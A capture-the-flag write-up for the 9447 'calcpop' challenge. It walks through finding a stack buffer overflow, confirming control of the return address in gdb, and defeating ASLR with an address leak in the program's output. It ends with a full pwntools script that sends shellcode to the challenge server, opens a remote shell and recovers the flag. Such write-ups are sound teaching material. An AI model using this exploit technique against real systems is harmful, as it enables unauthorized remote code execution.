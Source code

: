 # 9447 : calcpop

#### Author: ammar2

For this challenge we're given a file called `calcpop`. Running it puts us in an interactive shell,
where typing `help` gives us the following output:


    >  9447  ./calcpop
    Welcome to calc.exe
    help
    Type 'exit' to exit.
    Type two numbers and I will calculate their sum


Simple enough, if we disassemble the program we note that everything is handled in a single function,
and that typing in `exit` returns out of it. We can also see that the function allocates 0x90 for the
stack frame


    Dump of assembler code for function main:
        ...
        0x0804846e <+14>:	sub    $0x90,%esp


Now let's try breaking it. Starting off with 144 characters, I tried upping it until I could cause a segfault.
I ran

    python -c "print 'A' * 144" > input.txt; echo "exit" >> input.txt
    ./calcpop < input.txt

and eventually at 156 characters we encounter a segfault. This was later confirmed to me by a teammate who pointed
that the main preamble was saving the state of 3 registers on the stack which points to this figure exactly.

To confirm that we were overriding the return instruction I ran

    python -c "print ('A' * 156) + '\xEF\xBE\xAD\xDE'" > input.txt; echo "exit" >> input.txt`

and then ran the program through gdb

    >  9447  gdb calcpop
    (gdb) run < input.txt
    Starting program: /home/ammar/shared/CTF/9447/calcpop < input.txt
    Welcome to calc.exe
    Missing a space; your input was 0xffffd540
    Exiting...

    Program received signal SIGSEGV, Segmentation fault.
    0xdeadbeef in ?? ()

Success. Now it's just a simple matter of beating ASLR. In the output of the program you might note an interesting line.
`Missing a space; your input was 0xffffd540`. Could it be? An address leak built into the program?

Let's run it through gdb and find out:

    (gdb) break *0x0804860b
    Breakpoint 2 at 0x804860b: file calcpop.c, line 46.
    (gdb) run
    Starting program: /home/ammar/shared/CTF/9447/calcpop
    Welcome to calc.exe
    abcd
    Missing a space; your input was 0xffffd540
    exit
    Exiting...

    Breakpoint 2, main () at calcpop.c:46
    (gdb) x/s 0xffffd540
    0xffffd540:	 "exit"


Looks like it is, our input ended up in the very same buffer. And since this is a local/stack variable, it's
address shouldn't change while the function hasn't returned, and the only time it returns is when we use exit.

I wanted to dip my feet into using pwntools, so I wrote up a quick script to automate the leaking and all the
steps.

    import struct
    from pwn import *
    context(arch = 'i386', os = 'linux')

    r = remote('calcpop-4gh07blg.9447.plumbing', 9447)

    # Welcome message
    log.info(text.yellow("Receiving welcome message: "))
    log.info(text.bold_green(r.recvline()))

    r.sendline("hi")

    log.info(text.yellow("Grabbing leaked address"))
    line = r.recvline().strip()

    address = line[-10:]
    log.info(text.bold_green("Leaked address: " + address))
    address = int(address, 16)

    shellcode_address = address + 6

    log.info(text.cyan("Sending payload"))

    # 6 bytes of padding, this is the part that get's overwritten by
    # our 'exit' command
    r.send("A" * 6)
    # Shellcode
    shellcode = asm(shellcraft.sh())
    r.send(shellcode)
    # Padding
    r.send("A" * (156 - len(shellcode) - 6))
    # Shellcode address in little endian
    r.send(struct.pack("<I", shellcode_address))
    r.send("\n")

    log.info(text.cyan("Sending exit to execute payload"))
    r.sendline("exit")

    r.interactive()


And I get the flag: 9447{shELl_i5_easIEr_thaN_ca1c}
